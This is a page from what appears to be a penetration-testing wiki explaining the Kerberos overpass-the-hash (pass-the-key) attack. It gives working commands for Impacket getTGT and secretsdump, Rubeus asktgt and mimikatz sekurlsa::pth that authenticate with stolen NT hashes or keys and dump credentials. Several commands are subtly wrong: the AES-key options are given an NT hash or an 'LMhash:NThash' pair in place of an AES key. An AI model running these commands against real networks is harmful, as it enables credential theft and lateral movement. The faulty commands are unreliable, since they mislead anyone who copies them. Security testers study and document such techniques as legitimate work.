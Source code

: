 # Overpass the hash

## Theory

In short, an attacker knowing a user's NT hash can use it to authenticate over NTLM \([pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md)\) or indirectly over Kerberos \(overpass-the-hash\) when the RC4 etype is not disabled. When RC4 is disabled, other Kerberos keys \(DES, AES128, AES256\) can be passed as well, which is why overpass-the-hash is also known as pass-the-key, only the key type differs.

With overpass-the-hash, an attacker can leverage a user's Kerberos key \(i.e. NT hash is RC4 etype is enabled, true by default\) to request a TGT \(pre-authentication\), that can then be used with [pass-the-ticket](pass-the-ticket.md) to request a TGS \(Service ticket\) and access a service using Kerberos.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) \(Python\) can request a TGT \(Ticket Granting Ticket\) given a password, hash \(`LMhash` can be empty\), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](pass-the-ticket.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) \(C\#\). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" caption="" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" caption="" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" caption="" %}

